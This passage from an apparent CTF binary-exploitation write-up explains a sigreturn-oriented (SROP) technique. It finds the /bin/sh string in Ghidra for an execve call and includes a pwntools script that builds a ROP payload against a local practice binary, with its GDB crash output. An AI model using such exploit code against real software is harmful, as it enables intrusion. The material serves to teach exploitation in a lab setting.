 The main hiccup to calling execve typically that it needs to called with a pointer to the string command that we want to execute, which is most typically /bin/sh. Fortunately, the exports section in ghidra references binsh; if I click on it, then click the address that it is referencing, I can see the string /bin/sh in a static location that I can easily load into rdi. I could also find this information by looking at the defined strings tab, again within Ghidra. 

![binsh_string_ghidra](binsh_string_ghidra.png)

## Writing the Exploit:

One approach that I have taken when attempting to conceptualize how this technique works is appending the pwntools cyclic pattern after the syscall and seeing what gets loaded into the registers after making the call. For illustrative purposes, I will show that here. Here is the script that you can use to generate this result:
```
from pwn import *

target = process('./little')

pid = gdb.attach(target, "\nb *0x0040100f\n set disassembly-flavor intel\ncontinue")

syscall = p64(0x000000000040100d)
syscall_pop_rax = p64(0x0000000000401007)

padding = b''
payload = padding
payload += syscall_pop_rax
payload += p64(0xf)
payload += cyclic(300)

target.sendline(payload)

target.interactive()
```
And once I step down past the sigreturn in my ROPchain, here is what the registers look like in the GEF wrapper for GDB:
```
Program received signal SIGSEGV, Segmentation fault.
0x6261617362616172 in ?? ()

```